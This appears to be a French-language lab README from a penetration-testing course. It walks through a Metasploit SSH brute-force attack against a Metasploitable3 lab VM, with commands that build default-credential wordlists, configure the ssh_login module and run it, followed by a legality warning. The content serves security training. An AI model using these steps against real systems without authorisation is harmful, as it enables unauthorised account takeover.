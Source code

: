 ## LAB6 - PARTIE2 - Configuration et Utilisation de Metasploit pour Attaque par Force Brute SSH

### Description
Ce document fournit des instructions détaillées pour utiliser Metasploit afin de lancer une attaque par force brute SSH contre une machine cible, en l'occurrence Metasploitable3. Ce guide couvre la préparation des fichiers nécessaires, la configuration de Metasploit, et le lancement de l'attaque.

### Prérequis
- **Système d'exploitation**: Linux (Ubuntu 22.04 préféré)
- **Metasploit Framework installé**
- **Accès administratif sur la machine où Metasploit est installé**
- **Machine cible configurée et accessible sur le réseau**

### Installation de Metasploit (si non installé)
1. Ouvrez un terminal.
2. Exécutez les commandes suivantes pour installer Metasploit:
   ```bash
   sudo apt update
   sudo apt install metasploit-framework
   ```

### Étape 1: Préparation des Fichiers de Noms d'Utilisateurs et de Mots de Passe
1. **Création des fichiers** :
   - Créez les fichiers contenant les noms d'utilisateurs et les mots de passe que vous prévoyez d'utiliser pour l'attaque.
     ```bash
     echo -e "root\nadmin\nuser\ntest\nguest\ninfo\noperator" > /home/eleve/usernames.txt
     echo -e "password\n123456\nadmin\nguest\n123123\npassword1\nqwerty\n12345\n123456789\ntest" > /home/eleve/passwords.txt
     ```

2. **Modification des permissions** :
   - Assurez-vous que les fichiers sont lisibles.
     ```bash
     chmod 644 /home/eleve/usernames.txt
     chmod 644 /home/eleve/passwords.txt
     ```

3. **Changement de propriétaire** :
   - Changez le propriétaire des fichiers pour garantir que Metasploit peut y accéder.
     ```bash
     sudo chown $(whoami) /home/eleve/usernames.txt
     sudo chown $(whoami) /home/eleve/passwords.txt
     ```

### Étape 2: Déplacement des Fichiers dans un Répertoire Accessible par Metasploit
- Déplacez les fichiers dans un répertoire où Metasploit a les permissions de lecture.
  ```bash
  sudo mv /home/eleve/usernames.txt /snap/metasploit-framework/
  sudo mv /home/eleve/passwords.txt /snap/metasploit-framework/
  ```

### Étape 3: Configuration de Metasploit
1. **Lancement de Metasploit** :
   - Ouvrez Metasploit en utilisant la commande suivante :
     ```bash
     msfconsole
     ```

2. **Configuration du module SSH** :
   - Configurez Metasploit pour utiliser les fichiers déplacés et ciblez la machine appropriée.
     ```bash
     use auxiliary/scanner/ssh/ssh_login
     set RHOSTS 172.28.128.3
     set USER_FILE /snap/metasploit-framework/usernames.txt
     set PASS_FILE /snap/metasploit-framework/passwords.txt
     set VERBOSE true
     ```

### Étape 4: Lancement de l'Attaque
- Exécutez le module pour commencer l'attaque.
  ```bash
  run
  ```

### Conseils de Sécurité
- **Permissions**: Vérifiez régulièrement que les permissions des fichiers sont correctement configurées pour éviter tout accès non autorisé.
- **Légalité**: Assurez-vous d'avoir l'autorisation explicite de tester la machine cible. L'utilisation de Metasploit sans consentement est illégale.

### Dépannage
- Si des problèmes surviennent, vérifiez les logs de Metasploit pour des détails sur les erreurs. Assurez-vous que les chemins des fichiers sont corrects et que les fichiers ne sont pas corrompus.

---

Ce document devrait vous fournir une base solide pour l'utilisation sécurisée et efficace de Metasploit dans vos tests de pénétration. Assurez-vous de suivre les meilleures pratiques de sécurité et de conformité légale lors de vos tests.
